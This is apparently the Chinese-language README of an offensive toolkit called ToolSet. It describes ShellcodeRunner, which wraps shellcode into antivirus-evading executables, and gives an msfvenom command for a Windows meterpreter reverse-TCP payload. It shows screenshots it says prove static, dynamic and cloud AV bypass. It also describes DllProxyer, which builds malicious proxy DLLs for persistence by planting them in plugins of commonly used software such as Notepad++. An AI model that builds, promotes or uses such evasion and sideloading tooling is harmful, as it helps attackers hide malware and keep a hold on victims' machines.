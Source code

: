 # ToolSet

一个小小的工具集

**目前已经查杀，后续再更新**

## 安装

```shell
git clone $repo_url

sudo docker-compose build && sudo docker-compose up -d
```

访问 `http://127.0.0.1:8080/swagger/index.html` 即可查看接口文档


## 工具列表

### ShellcodeRunner

#### 介绍

一个shellcode包装器，可根据提供的shellcode raw[`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=4444 -f raw > ~/shell.raw`]文件
生成免杀的执行器

#### 国际惯例

![ShellcodeRunner静态bypass.webp](pics/ShellcodeRunner-static-bypassAV.webp)
![ShellcodeRunner动态bypass.webp](pics/ShellcodeRunner-dynamic-bypassAV.webp)

##### 云查杀测试

一天过去了，还能冲，应该bypass了云查杀

![一天后冲图.webp](pics/ShellcodeRunner-static-rescan-after-one-day.webp)

### DllProxyer

#### 介绍

依旧是一个shellcode包装器，但是关注点不同，此工具根据用户所提供的dll和shellcode，生成一个恶意转发dll

##### 用途和场景

一般可用在一些维权和白利用的场景上，比如目标用户使用 notepad++ 频率较高，则我们可以把 notepad++ 里面的某个插件的dll取出来做成恶意dll放入

